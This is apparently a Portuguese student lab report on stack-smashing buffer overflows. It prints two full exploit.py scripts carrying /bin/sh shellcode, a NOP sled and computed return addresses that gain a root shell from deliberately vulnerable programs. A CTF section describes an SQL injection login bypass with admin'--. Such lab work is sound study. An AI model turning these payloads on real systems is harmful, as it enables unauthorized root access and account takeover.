



# Lab Semana 5

O objetivo do trabalho esta semana é perceber em detalhe o ataque de *buffer overflow* conhecido como *smashing the stack*.

### Task 1

Ao compilar `call_shellcode.c` e correr `a32.out` e `a64.out` separadamente, verificamos que ambos iniciam uma *shell* independentemente da arquitetura para qual é compilado.

### Task 3

Seguindo a sugestão no guião, adicionamos a seguinte linha a `stack.c`:

```c
printf("Address of buffer: %p\n", &buffer);
```

E ao correr o programa dentro e fora de `gdb` conseguimos descobrir o *offset* que o *debugger* incorre na memória.
Verificamos que o endereço de memória do *buffer* dentro do `gdb` foi `0xffffcadc`, e fora do mesmo obtivemos o valor de `0xffffcb4c`. Isto significa que há um *offset* de 112 bits.

Correndo `gdb stack-L1-dbg` e seguindo o guia, conseguimos obter os seguintes endereços de memória:



A partir do valor de `ebp` e do endereço de `buffer` conseguimos obter *offset* de memória desde `buffer` até onde o *return adress* é guardado.

```
0xffffcb48 - 0xffffcadc = 108
```

Uma vez que o *return address* é guardado no endereço de memória anterior ao *stack frame*, o *offset* que realmente queremos é 112.

Finalmente, para calcular o *return address*, basta escolher um valor maior que 112 e que ocorra antes do início do *shellcode*, e que adicionalmente seja divisível por 4, como, por exemplo 120.

Assim, e utilizando o valor arbitrário de 200 como o índice do *buffer* onde começa o *shellcode*, `exploit.py` fica assim:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 200
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbc4    # &buffer + 120
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

Correndo `./exploit.py` seguido de `./stack-L1`, verificamos que ganhamos acesso à *root shell*:



### Task 4

Aqui, o processo é semelhante. No entanto, não sabemos o tmanaho inicial do *buffer*.

Como nos é informado que o *buffer* pode ter desde 100 a 200 bytes e não podemos usar força bruta, para assegurar que funciona para qualquer tamanho nesse intervalo teremos de colocar o *shellcode* algures depois do tamanho máximo do *buffer*.

Vimos na tarefa anterior que o *return address* se econtrava 12 bytes após o final do *buffer* (100 + 12). Logo, se preenchermos as posições 112 a 212 do *buffer* com o *return address* que pretendemos, qualquer *buffer* com o tamanho contido no intervalo indicado encontrará o *return address* em `ebp`.

Usando o `gdb`, vemos que o endereço do *buffer* é `0xffffcaa0`, logo fora do mesmo será `0xffffcb0c`.

Usando os valores arbitrários de 240 como início do *shellcode* e 220 o *offset* do *return address*, o `exploit.py` terá o seguinte conteúdo:

```py
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 240
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcbe8    # &buffer + 220
offset = 112

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
for x in range(26):    # (212 - 112) / 4 + 1 = 26
	content[offset + x * 4 :offset + L + x * 4] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```
Executando `./exploit.py` uma vez mais, seguido de `./stack-L2`, conseguimos mais uma vez ter acesso à *root shell*.



---

# CTF

Neste CTF, tivemos de entrar num sistema, a partir de um *login*, com *SQL Injection*.

Optamos por inserir o seguinte código SQL no campo de início de sessão do nome de utilizador: admin'--. Ao enviar essa sequência para o servidor, o código SQL injetado substituirá $username na consulta, alterando a estrutura para $query = "SELECT username FROM user WHERE username = '".username."' AND password = '".password."'";$. O caractere de apóstrofo que inserimos após "admin" encerrará a cadeia de pesquisa, fazendo com que os caracteres "--" sejam interpretados como código SQL. Em SQL, "--" é a sintaxe para comentar uma linha, assim, a consulta comentará tudo após 'admin', efetivamente transformando a consulta para $query = "SELECT username FROM user WHERE username = 'admin'";. Agora, a consulta procura apenas na base de dados usando um nome de utilizador, possibilitando o acesso a uma conta apenas com o conhecimento do nome de utilizador, tornando a palavra-passe irrelevante.


